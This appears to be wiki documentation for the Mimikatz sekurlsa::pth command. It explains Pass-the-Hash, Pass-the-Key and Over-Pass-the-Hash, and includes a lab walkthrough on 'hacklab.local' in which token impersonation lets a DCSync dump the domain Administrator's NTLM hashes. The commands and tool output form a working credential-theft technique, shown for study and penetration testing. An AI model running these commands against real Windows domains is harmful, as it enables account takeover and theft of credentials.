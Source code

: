 # pth

`sekurlsa::pth` performs [Pass-the-Hash](https://www.thehacker.recipes/ad/movement/ntlm/pth), [Pass-the-Key](https://www.thehacker.recipes/ad/movement/kerberos/ptk) and [Over-Pass-the-Hash](https://www.thehacker.recipes/ad/movement/kerberos/opth). Upon successful authentication, a program is run (n.b. defaulted to `cme.exe`). It has the following command line arguments:

* `/user` : the username to impersonate. It must be noted that Administrator is not the only name for this well-known account.
* `/domain` : the fully qualified domain name. If Active Directory domain services are not in use or in case of local user/admin, a computer or a server name, `workgroup` can be used.
* `/rc4` or `/ntlm` : the RC4 key / NT hash (derived of the user's password).
* `/aes128` : the AES128 key derived from the user's password and the realm of the domain.
* `/aes256` : the AES256 key derived from the user's password and the realm of the domain.
* `/run` : the command line to run (defaulted to `cmd.exe`).
* `/luid` : locally unique identifier. According to Microsoft, the [locally unique identifier (LUID)](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/igpupvdev/ns-igpupvdev-\_luid) is a 64-bit value guaranteed to be unique only on the system on which it was generated. The uniqueness of an LUID is guaranteed only until the system is restarted.
* `/impersonate` : It performs [user token impersonation](pth.md#with-token-impersonation). It must be noted that a new process is not spawned but the token is injected on the process running Mimikatz.

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
Doing [Pass-the-Hash](https://www.thehacker.recipes/ad/movement/ntlm/pth) on a Windows system requires specific privilege. It either requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account). This doesn't apply to [Pass-The-Ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt) which uses an official API.
{% endhint %}

```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7
user    : Administrator
domain  : hacklab.local
program : cmd.exe
impers. : no
NTLM    : b09a14d2d325026f8986d4a874fbcbc7
  |  PID  5896
  |  TID  4620
  |  LSA Process is now R/W
  |  LUID 0 ; 82772120 (00000000:04ef0098)
  \_ msv1_0   - data copy @ 0000023A0E8BD5C0 : OK !
  \_ kerberos - data copy @ 0000023A0E9FF5A8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000023A0E941CE8 (32) -> null
```

![Pass the Hash](<../../../.gitbook/assets/2 (3).png>)

### With token impersonation

As can be seen in the following output the `hacklab\optimus` user is a low privileged user in the `HACKLAB.LOCAL` active directory domain:

```
C:\Users\optimus>net user optimus /domain
The request will be processed at a domain controller for domain hacklab.local.

User name                    optimus
Full Name                    optimus prime
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            18/10/2021 15:39:30
Password expires             Never
Password changeable          19/10/2021 15:39:30
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   18/10/2021 15:56:39

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users
The command completed successfully.
```

An attempt to [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) with his credentials will result in the following:

```
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'hacklab.local' will be the domain
[DC] 'DC.hacklab.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x000020f7 (8439)
```

However, by using the `/impersonate` option, [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) can be performed without spawning a new window:

```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7 /impersonate
user    : Administrator
domain  : hacklab.local
program : C:\Users\Public\x64\mimikatz.exe
impers. : yes
NTLM    : b09a14d2d325026f8986d4a874fbcbc7
  |  PID  7368
  |  TID  3204
  |  LSA Process is now R/W
  |  LUID 0 ; 86889532 (00000000:052dd43c)
  \_ msv1_0   - data copy @ 0000023A0E8BD7B0 : OK !
  \_ kerberos - data copy @ 0000023A0E9FE8E8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000023A0E96C0E8 (32) -> null
** Token Impersonation **
```

```
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'hacklab.local' will be the domain
[DC] 'DC.hacklab.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 01:00:00
Password last change : 24/09/2021 16:24:41
Object Security ID   : S-1-5-21-2725560159-1428537199-2260736313-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 0: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 1: a06b19f88e0432e937a67fb6848e56bd

...Output Omitted...
```

According to Benjamin the following must be taken into consideration:

* This command does not work with minidumps (nonsense)
* this new version of 'Pass-The-Hash' replaces RC4 keys of Kerberos by the NT hash (and/or replaces AES keys). It allows the Kerberos provider to ask TGT tickets.
* NT hash is mandatory on XP/2003/Vista/2008 and before 7/2008r2/8/2012 kb2871997 (AES not available or replaceable)
* AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with kb2871997, in this case an NT hash is not required.
